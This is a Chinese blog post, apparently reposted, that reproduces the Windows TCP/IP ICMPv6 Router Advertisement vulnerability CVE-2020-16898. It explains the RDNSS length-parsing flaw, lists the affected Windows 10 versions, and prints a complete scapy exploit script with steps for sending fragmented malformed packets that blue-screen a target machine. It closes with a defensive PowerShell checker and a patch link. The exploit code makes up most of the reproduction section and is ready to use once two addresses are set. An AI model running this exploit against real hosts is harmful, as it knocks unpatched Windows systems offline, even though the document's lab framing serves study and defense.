




# Windows tcp/ip（CVE-2020-16898）远程代码执行蓝屏漏洞复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/13876854.html`](https://www.cnblogs.com/backlion/p/13876854.html)

### 0x00  漏洞背景

2020 年 10 月 14 日，某监测发现 Microsoft 发布了 TCP/IP 远程代码执行漏洞的风险通告，该漏洞是由于 Windows TCP/IP 堆栈在处理 IMCPv6 Router Advertisement（路由通告）数据包时存在漏洞，远程攻击者通过构造特制的 ICMPv6 Router Advertisement（路由通告）数据包 ，并将其发送到远程 Windows 主机上，可造成远程 BSOD，漏洞编号为 CVE-2020-16898。

### 0x01 影响版本

| 操作系统 | 版本 | 版本补丁 | 经过测试 |
| :-- | :-- | --- | --- |
| Windows 10 | X86 / x64 / ARM64 | 1709 | ✔️ |
| Windows 10 | X86 / x64 / ARM64 | 1803 | ✔️ |
| Windows 10 | X86 / x64 / ARM64 | 1809 年 | ✔️ |
| Windows 10 | X86 / x64 / ARM64 | 1903 年 | ✔️ |
| Windows 10 | X86 / x64 / ARM64 | 1909 年 | ✔️ |
| Windows 10 | X86 / x64 / ARM64 | 2004 年 | ✔️ |
| Windows Server 2019 |   |   |   |
| Windows Server 2019（服务器核心版） |   |   |   |
| Windows Server 1903 版（服务器核心版） |   |   |   |
| Windows Server 版本 1909（服务器核心版） |   |   |   |
| Windows Server 2004 版（服务器核心版本） |   |   |   |

### 0x02  漏洞成因

根据 rfc5006 描述，RDNSS 包的 length 应为奇数，而当攻击者构造的 RDNSS 包的 Length 为偶数时，Windows TCP/IP 在检查包过程中会根据 Length 来获取每个包的偏移，遍历解析，导致对 Addresses of IPv6 Recursive DNS Servers 和下一个 RDNSS 选项的边界解析错误，从而绕过验证，将攻击者伪造的 option 包进行解析，造成栈溢出，从而导致系统崩溃。

### 0x03  漏洞复现

攻击机：win10x64

靶机：Windows 10x64_1709 

1.通过 vmware 对受害主机开启 IPV6

2.对 CVE-2020-16898.py 脚本中的 IPV6 地址进行修改，这里分别为攻击机的本来连接 IPV6 地址以及靶机 IPV6 地址。

```
#!/usr/bin/env python3
#
# Proof-of-Concept / BSOD exploit for CVE-2020-16898 - Windows TCP/IP Remote Code Execution Vulnerability
#
# Author: Adam 'pi3' Zabrocki
# http://pi3.com.pl

from scapy.all import *
from scapy.layers.inet6 import ICMPv6NDOptEFA, ICMPv6NDOptRDNSS, ICMPv6ND_RA, IPv6, IPv6ExtHdrFragment, fragment6

v6_dst = "fd15:4ba5:5a2b:1008:9d37:36d2:3363:6496" #目标靶机 IPv6 地址
v6_src = "fe80::ec1e:a7aa:6717:67c6%13" #攻击机本地链接 IPv6 地址

p_test_half = 'A'.encode()*8 + b"\x18\x30" + b"\xFF\x18" p_test = p_test_half + 'A'.encode()*4 c = ICMPv6NDOptEFA()

e = ICMPv6NDOptRDNSS()
e.len = 21 e.dns = [ "AAAA:AAAA:AAAA:AAAA:FFFF:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA" ]
aaa = ICMPv6NDOptRDNSS()
aaa.len = 8 pkt = ICMPv6ND_RA() / aaa / \
      Raw(load='A'.encode()*16*2 + p_test_half + b"\x18\xa0"*6) / c / e / c / e / c / e / c / e / c / e / e / e / e / e / e / e

p_test_frag = IPv6(dst=v6_dst, src=v6_src, hlim=255)/ \
              IPv6ExtHdrFragment()/pkt

l=fragment6(p_test_frag, 200) for p in l:
    send(p)
```

3.最后使用命令 pip3 install scapy，安装依赖包,执行 CVE-2020-16898.py，即可看到靶机出现蓝屏

4.本地检查脚本：CVE-2020-16898_Checker.ps1

```
#######################################################################################################
### 14/10/2020 - Written by Cyril Pineiro / SYNAPSYS-IT
### Check if Network Interface is Vulnerable to CVE-2020-16898 & CVE-2020-16899 ### Returns Interface Index and Alias
#######################################################################################################

Clear

$interfaces = (Get-NetIPInterface | where {$_.AddressFamily -eq "IPv6"}).ifIndex foreach ($interface in $interfaces)
{
    [bool]$vuln = $false $output = netsh int ipv6 sh interfaces interface=$interface
    foreach ($Line in $output)
    { if($Line.Contains("6106") -and $Line.Contains("enabled"))
        {
            [bool]$vuln = $true }
    }
    $NetIPInterfaceAlias = ((Get-NetIPAddress -InterfaceIndex $interface | Select-Object InterfaceAlias)[0]).InterfaceAlias if ($vuln)
    {
        Write-Host "Interface '$($interface)' named '$($NetIPInterfaceAlias)' is Vulnerable to CVE-2020-16898 & CVE-2020-16899" -ForegroundColor Red
    } else {
        Write-Host "Interface '$($interface)' named '$($NetIPInterfaceAlias)' is Not Vulnerable to CVE-2020-16898 & CVE-2020-16899" -ForegroundColor Green
    }
}
```


### 0x04 漏洞修复

通过如下链接自行寻找符合操作系统版本的漏洞补丁，并进行补丁下载安装

[`portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898`](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898)

### 0x05  参考地址

[`github.com/momika233/CVE-2020-16898-exp/blob/main/CVE-2020-16898.py`](https://github.com/momika233/CVE-2020-16898-exp/blob/main/CVE-2020-16898.py)[`github.com/CPO-EH/CVE-2020-16898_Checker/blob/main/CVE-2020-16898_Checker.ps1`](https://github.com/CPO-EH/CVE-2020-16898_Checker/blob/main/CVE-2020-16898_Checker.ps1)[`github.com/Ascotbe/Kernelhub/tree/master/CVE-2020-16898`](https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2020-16898)